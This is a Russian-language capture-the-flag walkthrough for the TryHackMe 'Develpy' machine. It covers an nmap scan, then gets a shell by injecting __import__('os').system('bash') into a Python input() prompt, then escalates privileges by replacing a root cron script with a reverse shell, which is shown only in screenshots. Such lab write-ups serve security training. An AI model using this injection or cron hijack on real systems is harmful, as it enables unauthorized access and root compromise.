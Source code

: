 # Develpy

:white_check_mark:  [**Nc**](#nc)

:white_check_mark: [**Python**](#python)

:white_check_mark: [**Crontab**](#crontab)
___

## Enumeration
Сканируем ip командой:
```
nmap -vv -p 1-10000 develpy.thm
```

```
PORT      STATE SERVICE          REASON                                                                  
22/tcp    open  ssh              syn-ack ttl 63                                                          
10000/tcp open  snet-sensor-mgmt syn-ack ttl 63                                                          
                                                                                                         
Read data files from: /usr/bin/../share/nmap                                                         
```

<a name="nc"><h2>Getting shell</h2></a>

<a name="python"></a>

Взглянем на порт 10000. Попробуем подключиться по **nc**

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/develpy/1.png)

Мы имеем дело с программой на python, и для ввода используется функция "**input()**". Можем попытаться запустить системную команду.

```
__import__("os").system("bash")
```
<a name="crontab"><h2>Privilege escalation</h2></a>

Посмотрим, что находится в crontab.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/develpy/2.png)

Файл root.sh запускается с правами root. Удаляем файл root.sh и записываем в новый обратную оболочку.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/develpy/3.png)

Немного ждем и получаем оболочку.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/develpy/4.png)

